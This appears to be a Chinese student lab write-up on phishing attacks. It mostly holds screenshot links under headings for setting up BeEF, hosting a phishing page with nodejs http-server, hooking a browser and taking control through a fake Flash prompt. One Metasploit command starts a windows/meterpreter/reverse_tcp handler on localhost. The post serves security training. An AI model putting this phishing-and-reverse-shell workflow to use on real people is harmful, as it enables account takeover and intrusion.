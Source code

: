 ```yaml
---
title: 网络安全实训1——网络钓鱼攻击
tags:
  - 网络安全实训
  - 网络钓鱼攻击
categories:
  - 网络安全
  - 实训
  - 实验报告
cover: "https://th.bing.com/th/id/OIP.xeYJki3WJOfp7jnGa3sS6QHaEK?w=287&h=180&c=7&r=0&o=5&pid=1.7"
abbrlink: 1536eb66
date: 2024-07-11 08:14:24
---
```


# 网络钓鱼攻击

> 可能需要的：[kali Linux 切换镜像源](https://blog.w1ndys.top/posts/3073af94)

## 安装并启动

![image-20240711083230622](../images/zuolao/1/image-20240711083230622.png)

## 利用 BeEF 进行网页钓鱼攻击

![image-20240711084432017](../images/zuolao/1/image-20240711084432017.png)

## 利用 nodejs 开启静态服务

> 补充利用 nodejs 开启静态服务
>
> ```bash
> sudo apt update
> sudo apt install nodejs npm
> ```
>
> 安装完成后进入你的静态文件所在目录
>
> 开启命令行
>
> ```bash
> http-server
> ```

![image-20240711084857787](../images/zuolao/1/image-20240711084857787.png)

![image-20240711085531378](../images/zuolao/1/image-20240711085531378.png)

## 成功上线

![image-20240711085547978](../images/zuolao/1/image-20240711085547978.png)

## 发送警告命令

![image-20240711085907974](../images/zuolao/1/image-20240711085907974.png)

## 通过 flash 钓鱼获取目标控制权

```bash
msf6 > handler -H 127.0.0.1 -P 4444 -p windows/meterpreter/reverse_tcp
```

![image-20240711094156735](../images/zuolao/1/image-20240711094156735.png)

![image-20240711094705116](../images/zuolao/1/image-20240711094705116.png)

![image-20240711095518328](../images/zuolao/1/image-20240711095518328.png)

![image-20240711095843697](../images/zuolao/1/image-20240711095843697.png)

![image-20240711095854111](../images/zuolao/1/image-20240711095854111.png)

![image-20240711101710871](../images/zuolao/1/image-20240711101710871.png)
